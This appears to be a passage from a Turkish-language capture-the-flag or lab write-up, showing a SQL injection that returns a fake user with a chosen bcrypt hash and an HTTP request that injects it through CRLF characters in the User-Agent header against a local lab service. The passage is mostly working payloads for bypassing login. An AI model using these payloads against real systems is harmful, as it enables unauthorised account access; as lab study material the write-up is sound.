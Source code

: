 ```
SELECT * FROM users WHERE username='' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq' AND password='test';
```

Bu sorgu, istekte sağladığımız parola ile eşleşen rastgele bir parola hash'ine sahip sahte bir kullanıcı döndürecektir.

Ayrıca, isteğin Content-Length'i ile tam olarak eşleşmesi için CRLF payload'unun tam karakter uzunluğuna sahip sahte bir kullanıcı adı ve şifre eklenir, böylece enjekte edilen içerik orijinalinin üzerine yazılır.

```
POST http://127.0.0.1:1337/user
User-Agent: ChromeBot/9.5%0D%0A%0D%0A{"username":"' UNION SELECT 1, 'test',
'$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test
"}
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Connection: keep-alive
Content-Length: 110
Content-Type: application/x-www-form-urlencoded
username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaa&password=aaaa
```


Bu oda sorunlu sonra bak .....


